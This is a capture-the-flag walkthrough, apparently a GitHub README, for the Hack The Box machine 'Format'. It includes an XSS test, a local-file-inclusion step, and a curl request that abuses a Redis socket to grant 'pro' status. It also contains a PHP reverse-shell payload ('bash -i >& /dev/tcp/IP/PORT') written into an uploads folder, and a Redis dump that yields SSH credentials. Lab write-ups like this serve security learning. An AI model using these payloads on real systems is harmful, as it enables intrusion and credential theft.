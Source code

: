 ![Format-1024x775](https://github.com/st1llz0r/Format/assets/142597099/41c58bf0-ac14-41de-9e74-8d425beeeefb)

Let's go

information collection;
  Scanning target host.

nmap -sS -sVC target ip;

![image](https://github.com/st1llz0r/Format/assets/142597099/6773bb04-d5b4-4b0d-bbb6-d7159a9cbafb)

  Navigate to target IP port 80;
  Nothing, so try and Spoof DNS;

 <b> echo '10.10.11.213 microblog.htb' >> /etc/hosts </b>;

 Trying again, we can discover http://app.microblog.htb, therefore spoof it. bind the domain to hosts file;

 Browser input > http://app.microblog.htb;

 Browse the web app and see what functionalities it has;

 Create an account and publish your own blog. Test out the Editing page and so on;

 On the editing page let's try and see how the web page reacts to basic XSS; Use the h1 option and input:

 <b> <script>alert(1)</script> </b>;

 Hmm, interesting result;

 Now let's try something crispier;

 Now let's change it to text and capture the traffic by using Burpy suite;

 Analyze the pack

  ![image](https://github.com/st1llz0r/Format/assets/142597099/52e58d19-1292-4a6a-a383-98a9ca924351)

  After analyzing let's start with basic stuff, basic LFI:

 ![image](https://github.com/st1llz0r/Format/assets/142597099/dfc3ff0a-2bac-4c0c-9bcb-cf08433e7a27)


n0w navigate to your browser and refresh:

 ![image](https://github.com/st1llz0r/Format/assets/142597099/2f0d0e67-ddc0-4af7-81e6-10b07a060be5)

Pew pew pew pew
We got a lead
redis and git and user
let's navigate to http://microblog.htb:3000/

Who would ve thought =D



![image](https://github.com/st1llz0r/Format/assets/142597099/e5e3b712-7d3c-45d5-8552-d3b320d04135)



![image](https://github.com/st1llz0r/Format/assets/142597099/12aee48a-ae78-492a-9a95-a12172e64969)


So, there is this Cooper guy (USER) who has created this sunny (blog domain);

Site is pretty basic as in infrastructure so the folders and all will apply for our account also;

Go into the Sunny Folder > check index.php and analyze code;

```php
<?php
$username = session_name("username");
session_set_cookie_params(0, '/', '.microblog.htb');
session_start();

function checkAuth() {
    return(isset($_SESSION['username']));
}

function checkOwner() {
    if(checkAuth()) {
        $redis = new Redis();
        $redis->connect('/var/run/redis/redis.sock');
        $subdomain = array_shift((explode('.', $_SERVER['HTTP_HOST'])));
        $userSites = $redis->LRANGE($_SESSION['username'] . ":sites", 0, -1);
        if(in_array($subdomain, $userSites)) {
            return $_SESSION['username'];
        }
    }
    return "";
}

function getFirstName() {
    if(isset($_SESSION['username'])) {
        $redis = new Redis();
        $redis->connect('/var/run/redis/redis.sock');
        $firstName = $redis->HGET($_SESSION['username'], "first-name");
        return "\"" . ucfirst(strval($firstName)) . "\"";
    }
}

function fetchPage() {
    chdir(getcwd() . "/content");
    $order = file("order.txt", FILE_IGNORE_NEW_LINES);
    $html_content = "";
    foreach($order as $line) {
        $temp = $html_content;
        $html_content = $temp . "<div class = \"{$line}\">" . file_get_contents($line) . "</div>";
    }
    return $html_content;
}

?>
<!DOCTYPE html>
<head>
<link rel="icon" type="image/x-icon" href="/images/brain.ico">
<link rel="stylesheet" href="http://microblog.htb/static/css/styles.css">
<script src="http://microblog.htb/static/js/jquery.js"></script>
<title></title>
<script>
    $(window).on('load', function(){
        const html = <?php echo json_encode(fetchPage()); ?>.replace(/(\r\n|\n|\r)/gm, "");
        $(".push-for-h1").after(html);
        if(html.length === 0) {
            $(".your-blog").after("<div class = \"empty-blog\">Blog in progress... check back soon!</div>");
            $(".push-for-h1").css("display", "none");
        }
        const siteOwner = <?php echo json_encode(checkOwner()); ?>;
        if(siteOwner.length > 0) {
            $(".your-blog").css("display", "flex");
            $(".user-first-name").text(<?php echo getFirstName(); ?>);
        }
        const class_after_push = $(".push-for-h1").next().children().attr('class');
        if(class_after_push) {
            if(class_after_push.includes("blog-h1")) {
                $(".push-for-h1").css("display", "none");
            }
        }

        const blogName = String(window.location).split('.')[0].split('//')[1]
        document.title = blogName + " - Microblog"
    });
</script>
</head>
<body>
    <div class = "your-blog">
        <div><span class = "user-first-name"></span>, this is your blog! <a href = "/edit" style = "color: white;"><b>Edit it here.</b></a></div>
    </div>
    <div class = "push-for-h1" style = "min-height: 25px;"></div>
    <footer>
        © 2022 Microblog<br/>
        <a href="https://www.vecteezy.com/free-vector/brain">Brain Vectors by Vecteezy</a>
    </footer>
</body>
</html>

```
This provisionProUser () function seems to set a USER to be a PRO USER;

isPro () instructs us how to;

So we need to use a redis command in order to make our account PRO user;

Worth to check https://redis.io/commands/hset/;

```php

curl -X HSET "http://microblog.htb/static/unix:%2Fvar%2Frun%2Fredis%2Fredis.sock:YOUR_USERNAME%20pro%20true%20/b"

```

![image](https://github.com/st1llz0r/Format/assets/142597099/4b0d839a-ea34-41cc-994f-3d5294c51705)

![image](https://github.com/st1llz0r/Format/assets/142597099/abcc5c4d-09cf-4f73-9e47-18dcb43330c0)

Oulalala, if we check top right corner, now we are PRO USER and we can upload images also :P;

Upload a few images, add text and now using the text add function on the blog editor turn on Burpy suite and intercept again;
Now send to repeater and modify it this way:

![image](https://github.com/st1llz0r/Format/assets/142597099/4d8b101a-ec2c-42e7-91ce-63cdee8ffe58)

Before hitting send open NC set it to desired port;

![image](https://github.com/st1llz0r/Format/assets/142597099/cb1ba58b-c329-4649-9b48-2b1896955a2c)


```php


id=/var/www/microblog/blog_name/uploads/rev.php&txt=<%3fphp+exec("/bin/bash+-c+'bash+-i+>%26+/dev/tcp/IP/PORT+0>%261'")%3b%3f>

```
Hit SEND on Repeater Burpy;

Navigate to: http://sarmale.microblog.htb/uploads/rev.php (OFC CHANGE TO YOUR BLOG)

![image](https://github.com/st1llz0r/Format/assets/142597099/aa70134b-2690-4491-a089-97c865a234b6)





<b> WE GOT IT </b>

![image](https://github.com/st1llz0r/Format/assets/142597099/84984c3c-9713-4cb3-b344-8c2e4da6f69e)

RUN REDIS: 

redis-cli -s /var/run/redis/redis.sock;

KEYS;


![image](https://github.com/st1llz0r/Format/assets/142597099/2f1866d5-83c0-40b7-8d29-b183ed277d3c)

cooper.dooper spotted;

hgetall cooper.dooper;

![image](https://github.com/st1llz0r/Format/assets/142597099/fd74c8f3-1a1c-4ddb-89f0-8ac01fd29612)


ssh cooper@10.10.11.213;

![image](https://github.com/st1llz0r/Format/assets/142597099/da9a205d-c28a-4902-bbe2-312e54d78822)

![image](https://github.com/st1llz0r/Format/assets/142597099/a3859395-e9b0-4085-9429-8f4e9fa8ab61)



